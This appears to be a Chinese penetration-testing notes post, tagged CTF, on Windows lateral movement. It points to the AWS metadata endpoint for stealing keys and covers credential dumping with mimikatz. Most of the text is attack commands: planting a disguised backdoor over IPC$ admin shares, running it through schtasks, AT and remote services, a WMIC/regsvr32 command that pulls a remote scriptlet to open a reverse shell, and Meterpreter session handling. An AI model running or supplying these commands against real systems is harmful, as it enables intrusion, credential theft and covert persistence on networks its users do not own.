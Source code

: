 ```yaml
---
title: 横向移动
date: 2022-11-07 14:19:49
categories: CTF
tags: [渗透]
---
```


 **http://169.254.169.254/latest/meta-data/** 

**这些端点会泄露API密钥、AWS S3令牌和密码等敏感信息。**

**以下是一份来自亚马逊的完整文档，**

**https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html**



## 利用Windows内置工具

- IPC+Schtasks+AT
- IPC+SC(服务)
- WMIC(查询信息，补丁、账号；进程创建)
- WinRM服务

## IPC$

> IPC$,Internet Process Connection，是共享“命名管道”的资源，它是为了**让进程间通信**而开放的命名管道， 输入**可信**用户名、密码建立管道，借助该管道，可以实现加密数据的交换，访问远程计算机。

利用IPC$,需要使用Administrator账号权限。

### 利用条件

1.开放了139、445端口

2.目标机器开启IPC$文件共享服务（该服务建立的初衷是为了管理员方便的管理远程计算机）。

3.需要目标机器的管理员账号和密码

```cmd
D:\Documents>netstat -ano|findstr 445
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    192.168.66.1:54207     192.168.66.131:445     ESTABLISHED     4
  TCP    [::]:445               [::]:0                 LISTENING       4
```



### 获取管理员账号密码：

```
hashdump密码凭据获取
去cmd5.com在线解密即可
```

```
load kiwi
load mimikatz
help
#获取明文密码
cred_kerberos
```

当无法获取到明文密码时，可以采取**哈希扩展攻击**

```
存放在某个文件；
使用弱口令、口令复用；
```



![1667886774960](Pe-横向移动/1667886774960.png)

### 常用命令

```
net use  \\192.168.66.131\ipc$ /user:administrator "passwd"
#该命令可能被对方防火墙拦下，报告系统错误67 找不到网络名
#查看链接情况
net use  
#查看目标主机时间
net time \\192.168.66.131 
```

```
#删除链接,并且在非交互模式下输入yes
net use \\192.168.66.131\ipc$ /del /y
net use * /del /y

```

对于同一个机器，只能对目标主机**建立一个net use链接**，建立第二个时会报错（报告账号或者密码错误）

```
#文件上传下载
copy shell.exe \\192.168.66.131\c$\windows\temp\plugin_uddate.exe
#查看目标机器中的文件
dir \\192.168.66.131\d$

copy \\192.168.66.131\d$\hello.exe d:\

```

```
# 改变代码页编码为utf-8，gbk 936
chcp 65001

#谷歌浏览器快速切换标签页
ctrl+shift+tab

```

## Schtasks

### 创建计划任务执行我的后门

```
schtasks /create /s 192.168.66.131 /u administrator /p "passwd" /sc MINUTE /mo 1 /tn test /tr "c:\\windows\\temp\\plugin_uddate.exe"
```

![1667891124571](Pe-横向移动/1667891124571.png)

```
SUCCESS: The scheduled task "test" has successfully been created.
```

正常，过一分钟后木马被执行

账户输错

```
ERROR: No mapping between account names and security IDs was done.
(43,4):LogonType:
```

**注：只要执行了计划任务，一定会被系统日志记录下来。**

### tasklist查看目标机器上的进程

```
#展示详细信息
tasklist /s \\192.168.66.131 /v  
tasklist /s \\192.168.66.131 /u administrator /p "passwd"
vm3dservice.exe
VGAuthService
```

### 删除指定名称的计划任务

```cmd
schtasks /delete /s 192.168.66.131 /tn test /u administrator /p "passwd" /y
```



## AT

### 指定时间创建计划任务

```
net time \\192.168.66.131 
at  \\192.168.66.131 15:08 D:\\hello.exe
```

```
The AT command has been deprecated. Please use schtasks.exe instead.
Added a new job with job ID = 1
```

**注：At在Windows Server 2012等新版系统中被弃用**

![1667891456404](Pe-横向移动/1667891456404.png)

```
schtasks /delete /s 192.168.66.131 /tn At1 /u administrator /p "passwd" /y
```

## SC

### 创建服务执行

**注：binpath= 后面必须有空格**

```
sc \\192.68.66.131 create test binpath= "D:\\hello.exe" obj= "Administrator" password= passwd 
sc \\192.168.66.131 start test
```

### 查看服务是否创建成功

```
sc \\192.68.66.131 qc test
```

## WMIC

 Windows Management Instrumentation 

### 管理远程计算机node的进程process

借助regsvr32,进而反弹shell

```
wmic /node:192.168.66.131 /user:administrator /password:passwd process call create "regsvr32" /s /n /u /i:http:192.168.66.1:8080/fesddasji.sct scrobj.dll"
```

注：wmic没有回显，可以借助wmicexec.vbs脚本实现回显。

```
#列出简洁的系统信息
wmic os list brief
```



## MSF

```
jobs
#获取建立的会话
sessions
# 选择一个会话
sessions 5
#获取用户名
meterpreter:getuid
#退出当前会话
exit

```


